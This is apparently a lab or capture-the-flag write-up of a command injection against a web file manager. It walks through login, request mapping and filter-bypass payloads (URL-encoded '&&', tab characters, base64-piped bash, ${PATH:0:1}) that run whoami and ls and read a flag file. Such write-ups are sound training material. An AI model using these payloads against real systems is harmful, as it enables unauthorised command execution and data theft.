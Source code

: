 After navigating to the provided IP address, I was presented with a login form. 
![image](https://github.com/user-attachments/assets/8f63b8e7-44c3-459e-9468-332e2290d76e)

Using the credentials guest for both the username and password, I successfully logged in and accessed the main interface of the application. 
![image](https://github.com/user-attachments/assets/bf60fa83-7a6b-47c7-993e-f9a1d669be58)

The dashboard displayed a list of files, each with multiple available actions: **View, Copy to, Direct Link, and Download**. There was also an **Advanced Search** feature. Screenshots of the interface are included below for reference. This initial exploration helped me understand how the web application handled file operations, which later played a key role in identifying command injection points and exploiting them to retrieve the target flag.

Each action triggered specific HTTP GET requests, and by analyzing how the to, from, and move parameters behaved, I started mapping how file operations were executed on the backend. 

### View
```bash
GET /index.php?to=&view=51459716.txt&quickView=1
```
![image](https://github.com/user-attachments/assets/bdc65f98-b252-47f3-a07b-1515a7ef36d5)

### Copy to
```bash
GET /index.php?to=&from=51459716.txt
```
![image](https://github.com/user-attachments/assets/19de108f-c090-464c-823e-9566108aaa5b)

### Direct Link
```bash
GET /51459716.txt
```
![image](https://github.com/user-attachments/assets/b83b42fe-3c22-450e-8034-b638a8cc5615)

### Download
```bash
GET /index.php?to=&dl=51459716.txt
```
![image](https://github.com/user-attachments/assets/b2b95793-2c9b-42cd-ace5-1cf5ae02dba7)

### Advance Search
```bash
POST /index.php?to= HTTP/1.1
SNIP...
ajax=true&content=have&path=.&type=search
```
![image](https://github.com/user-attachments/assets/6873e2e7-139e-45b3-ac5b-dab7f9a283d1)

Initially, attempts to execute commands directly such as `whoami` through either `to=` or `from=` parameters were denied, returning the message **"Malicious request denied."**
**whoami in to**
![image](https://github.com/user-attachments/assets/2d4c5af4-8740-4b8d-9aeb-bd4ef6eb49d6)

**whoami in from**
![image](https://github.com/user-attachments/assets/26105475-ad8d-415e-bdf3-57f711723319)

I tried with other injections commands.
![image](https://github.com/user-attachments/assets/2b26095f-76c4-4fc0-9f17-7af93f1fccb6)

![image](https://github.com/user-attachments/assets/c3e50e94-e288-420d-b846-8d04959c3554)

Through experimentation, it was discovered that the server accepted the  `%26%26` operator when injected in parameters, suggesting the backend command execution might be happening via the `mv` command. This was a valuable clue for chaining shell commands.
![image](https://github.com/user-attachments/assets/0099502c-8cad-4002-b6e5-7d93fd12c090)

Again doing GET /index.php?to=&from=51459716.txt%26%26whoami&finish=1&move=1;whoami gave me the same error

![image](https://github.com/user-attachments/assets/e8fec73e-719a-41f5-9bec-e10ae712f2cd)

To execute commands stealthily, I used `base64` encoding to hide command payloads. 
![image](https://github.com/user-attachments/assets/237a083a-79b4-48e4-9399-f7c548d7404c)

And used that command as follows:
```bash
GET /index.php?to=&from=51459716.txt%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&finish=1&move=1;whoami
```
![image](https://github.com/user-attachments/assets/ef55853b-7647-4ee1-9a0b-27ff212b06cb)

Now changed payload `from` to `to` parameter.
```bash
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=51459716.txt&finish=1&move=1;whoami
```
![image](https://github.com/user-attachments/assets/39cdbdde-f258-4a1a-8644-87423aa8e6dc)

When I used the payload, the previous file gets moved from the list, so we have to regularly update file names in each steps.
```bash
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=605311066.txt&finish=1&move=1
```
![image](https://github.com/user-attachments/assets/528ca51f-943f-4ce8-b3e8-867de6894acf)

Again to find the list I used `ls -la` command but used base64 here as well. 
```bash
echo -n "ls -la" | base64
```                  
![image](https://github.com/user-attachments/assets/41986360-ba2b-4f29-b035-6c131ffb13a9)

Now using the payload with the above base64 output. 
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"bHMgLWxh")&from=787113764.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/8ca9801c-e87b-4e08-b91c-7e0109704609)

After finding the list, now time to use base64 of flag.txt and here i can't directly use cat flag.txt so again use base64.
```bash
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
![image](https://github.com/user-attachments/assets/bef58e53-7716-4a50-b2b0-518f660f5d48)

Finally, after using the payload, got the flag.
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")&from=877915113.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/aac33350-f1eb-404a-8826-eb44861d12cd)


